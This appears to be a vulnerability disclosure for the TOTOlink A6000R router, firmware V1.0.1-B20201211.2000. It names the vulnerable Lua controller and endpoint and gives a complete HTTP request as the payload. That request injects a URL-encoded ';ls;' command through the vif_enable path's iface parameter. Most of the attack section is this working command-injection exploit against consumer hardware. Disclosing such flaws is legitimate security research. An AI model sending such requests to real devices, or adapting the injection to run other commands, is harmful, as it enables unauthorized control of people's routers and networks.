




# TOTOlink A6000R V1.0.1-B20201211.2000 Command Injection
## Product Information

Device: TOTOlink A6000R
Firmware Version: V1.0.1-B20201211.2000
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/202/ids/36.html



## Vulnerability Description

When deal with  `vif_enable` request,`iface` parameter is vulnerable to OS command injection.

vuln code in firmware: /usr/lib/lua/luci/controller/mtkwifi.lua, line 507-514




entry: /admin/mtk/wifi/vif_enable/arg



## Payload

```http
GET /cgi-bin/luci/admin/mtk/wifi/vif_enable/%3b%6c%73%3b HTTP/1.1
Host: 192.168.32.129
Cookie: sysauth=499e9bfcb83e421b62fa91108f6b9bca
Cache-Control: max-age=0
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126", "Microsoft Edge";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36 Edg/126.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: close


```

inject the command "ls"


